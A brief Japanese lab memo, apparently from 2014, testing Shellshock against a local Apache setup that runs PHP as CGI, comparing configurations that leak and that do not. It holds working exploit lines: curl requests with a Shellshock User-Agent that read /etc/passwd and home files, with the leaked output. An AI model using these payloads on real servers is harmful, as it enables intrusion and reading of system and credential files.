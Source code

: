 ```yaml
---
Keywords: CLI,こっそり置いておく
Copyright: (C) 2017 Ryuichi Ueda
---
```


# 実験メモ
何の実験かは・・・あれですね・・・。

こういうファイルを準備。
```bash
[root\@localhost httpd]# cat /var/www/html/index.php 
#!/usr/bin/env php

<?php
	system('date');
?>
```

<!--more-->

httpd.confのOptionsのところにExecCGIを追加し、
下にAddHandlerを書く。

```bash
 Options Indexes FollowSymLinks ExecCGI
 AddHandler cgi-script php
```

ホームの下にファイルを準備
```bash
[ueda\@localhost ~]$ ls -l mysecret 
-rw-rw-r--. 1 ueda ueda 13 10月 3 20:07 2014 mysecret
[ueda\@localhost ~]$ cat mysecret 
私の秘密
```

外側からcurlでつっつく。ポートフォワードでhttp://localhost:8888からつっつく。
```bash
uedambp:~ ueda$ curl -A '() { :; }; /bin/cat /home/ueda/*' http://localhost:8888/index.php
```

ログを確認。パーミッションで守られている。
```bash
[root\@localhost httpd]# tail error_log 
...
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] /bin/cat: 
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] /home/ueda/*
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] : Permission denied
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] 
```

もう一度突っつく。別のものを。
```bash
uedambp:~ ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
ueda:x:500:500::/home/ueda:/bin/bash
apache:x:48:48:Apache:/var/www:/sbin/nologin
```
守られていない・・・。


今度はhttpd.confから追記部分をもう一度削り、index.phpを次のように書き換える。
```bash
[root\@localhost httpd]# cat /var/www/html/index.php 
<?php
	system('date');
?>
```

もう一度突っつく。
```bash
uedambp:~ ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php
Fri Oct 3 20:27:38 JST 2014
```
大丈夫。

もう一度CGIモードで。こんなコード。
```bash
[root\@localhost httpd]# cat /var/www/html/index.php 
#!/usr/bin/php

<?php
	print("hoge\\n");
?>
```

```bash
uedambp:IPSJ_SHELLSHOCK ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php 2> /dev/null
hoge
```

大丈夫。

これは・・・
```bash
[root\@localhost httpd]# cat /var/www/html/index.php 
#!/usr/bin/php

<?php
	system("date");
?>
```

ダメ。
```bash
uedambp:IPSJ_SHELLSHOCK ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php 2> /dev/null
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
ueda:x:500:500::/home/ueda:/bin/bash
apache:x:48:48:Apache:/var/www:/sbin/nologin
```
